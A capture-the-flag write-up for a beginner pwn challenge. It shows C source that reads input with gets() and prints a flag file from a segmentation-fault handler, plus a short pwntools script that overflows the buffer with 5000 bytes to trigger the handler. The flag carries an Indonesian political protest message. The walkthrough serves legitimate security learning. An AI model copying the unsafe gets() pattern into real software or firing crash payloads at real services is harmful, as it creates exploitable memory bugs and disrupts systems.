

is pwn really that hard?

- Author: mirai
- nc minictf.ucs.or.id 2002

```
gacoan nya takeaway mas, nambah udang keju satu
```

Inspect the source code.

```c
#include <stdio.h>
#include <signal.h>

void init()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
}

void signal_handler()
{
    FILE *fp = fopen("/flag.txt", "r");
    char flag[1000];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fclose(fp);
}

int main()
{
    init();
    signal(SIGSEGV, signal_handler);
    char buffer[0x800];
    printf("input something here: ");
    gets(buffer);
    return 0;
}
```

There is a callback function that act as a `SIGSEGV` (Segmentation Fault Signal) handler. So whenever the program ran into segv, `signal_handler()` will be called.

How to trigger it? Well, crash the program by sending an enormous input to `buffer`.

Code:

```py
from pwn import *

HOST = "minictf.ucs.or.id"
PORT = 2002

io = remote(HOST, PORT)

# Build payload: just something very long
payload = b"A" * 5000

io.sendlineafter(b"input something here: ", payload)
io.interactive()
```



Flag:

```
UCS{Catet ya: Penyerbuan UNPAS & UNISBA malam ini oleh aparat Polri & TNI hanya beberapa jam setelah Presiden mengumumkan kenaikan pangkat untuk anggota Kepolisian akibat demo beberapa hari terakhir, malah makin menjadi, semua aparat sama saja, masih mau menyudutkan demonstran?}
```

Btw, #ACAB.
